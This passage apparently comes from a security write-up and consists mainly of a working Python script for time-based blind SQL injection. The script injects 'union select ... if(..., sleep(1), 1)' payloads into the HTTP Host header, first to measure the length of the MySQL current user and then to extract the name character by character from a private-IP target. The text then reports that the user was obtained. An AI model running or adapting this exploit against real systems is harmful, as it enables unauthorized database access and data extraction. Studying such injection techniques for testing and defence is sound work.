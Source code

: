 ```python
    rlen = 0

    print("Start\n")

    for i in range(1,100):
        hosti = "aaa' union select 1,2,3,4,(select if(length(user())=%d,sleep(1),1)) #" %i
        headers["HOST"] = hosti
        starttime = time.time()

        res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
        if time.time() - starttime > 1:
            rlen = i
            print("the length of current user is : %d\n" %rlen)
            break

    for j in range(1, rlen+1):
        for payload in payloads:
            char = ord(payload)
            starttime = time.time()
            hosti = "aaa' union select 1,2,3,4,(select if(mid(user(),%d,1)='%s',sleep(1),1)) #" %(j,payload)
            headers["HOST"] = hosti
            res = requests.get(url, headers=headers, cookies=cookies, proxies=proxies)
            if time.time() - starttime > 1:
                result += payload
                print('current user is:', result)
                break
            else:
                pass
    print('\n[Finally] current user is %s' % result)

if __name__ == '__main__':
    host = '172.18.120.76'
    zs_sqli(host)    

```

got the mysql current user as:

![image-20180916015727597](/Users/kunkun/Library/Application Support/typora-user-images/image-20180916015727597.png)



------

##  

